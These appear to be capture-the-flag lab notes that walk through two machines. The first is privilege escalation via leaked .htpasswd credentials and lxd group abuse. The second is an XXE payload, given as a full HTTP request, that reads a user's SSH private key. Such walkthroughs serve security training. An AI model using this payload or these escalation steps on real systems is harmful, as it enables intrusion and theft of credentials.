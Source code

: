# Privilege Escalation
## we read `.htpasswd` in the webroot and find something interesting `mike:Sheffield19`
## we use `su` to switch to that user and it works
## we use `id` to find his group membership and find that he's a member of the `lxd` group
## we follow standard privesc steps to create a container with the flag `security.privileged=true` so our container interacts with the host as root
## we execute `/bin/sh` as our container and become root!

-------------------------------------------------------------------------------------

# Markup
## we use default credentials `admin` and `password` to login into the web app
## *browsing around the app,* we find a page that lets us request items
## *browsing the source code,* we find a username *daniel*
## finding an XXE vulnerability where the page `process.php` handles the given data as xml
```
POST /process.php HTTP/1.1
Host: 10.129.67.129
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Content-Length: 192
Origin: http://10.129.67.129
Connection: close
Referer: http://10.129.67.129/services.php
Cookie: PHPSESSID=5edhv6kgqtq8fnavg0a7gdd2om

<?xml version = "1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///C:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>3</quantity><item>&test;</item><address>17th Estate, CA</address></order>
```
## *in the above request,* we are posting to /process.php which takes in our xml file. we create an xml entity called `test` and call it from inside the xml as `&test;`
## we use the file read capabiltiy to get the `id_rsa` file in the home folder of the `daniel` user.
## we know this information because the ssh port happened to be open on the machine from our port scan.